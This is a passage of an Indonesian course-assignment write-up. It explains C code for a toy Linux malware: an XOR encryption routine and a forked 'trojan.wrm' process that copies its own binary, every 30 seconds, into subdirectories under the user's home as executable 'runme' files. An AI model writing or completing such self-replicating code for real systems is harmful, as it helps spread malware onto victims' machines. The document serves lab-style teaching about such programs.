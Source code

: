 -fungsi `xor_encrypt()`:
```c
void xor_encrypt(char *data, size_t len, time_t key) {
    for (size_t i = 0; i < len; i++) {
        data[i] ^= (char)(key >> (8 * (i % sizeof(time_t))));
    }
}
```
- Enkripsi XOR byte per byte berdasarkan bagian dari key `time_t` (timestamp).

### Soal 3-C
Anak fitur kedua yang bernama trojan.wrm berfungsi untuk menyebarkan malware ini kedalam mesin korban dengan cara membuat salinan binary malware di setiap directory yang ada di home user.

### Penyelesaian 3-C

```c
void start_trojan(int argc, char *argv[]) {
    pid_t pid = fork();
    if (pid < 0) return;

    if (pid == 0) {
        rename_process("trojan.wrm", argc, argv);
        while (1) {
            char *home = getenv("HOME");
            if (home) {
                replicate_binary(home);
            }
            sleep(INTERVAL);
        }
        exit(0);
    } else {
        trojan_pid = pid;
    }
}
```
**Penjelasan**:
- Proses `trojan.wrm` dijalankan sebagai child dengan `fork()`.
- Proses akan rename dirinya menjadi `"trojan.wrm"`.
- Setiap 30 detik (`INTERVAL`), ia akan:
 Mengambil path direktori `$HOME`
 Menyalin binary malware ke setiap subdirektori dalam $HOME dengan nama `runme`


**Fungsi `replicate_binary()`:**
```c
ssize_t len = readlink("/proc/self/exe", self_path, ...);
```
- Mengambil path executable dari program itu sendiri (lokasi binary).
```c
FILE *src = fopen(self_path, "rb");
FILE *dest = fopen(dest_path, "wb");
```
- Buka binary asli, lalu salin byte demi byte ke lokasi baru ``target_dir/.../runme`.
```c
chmod(dest_path, 0755);
```
- Beri hak eksekusi agar binary bisa dijalankan

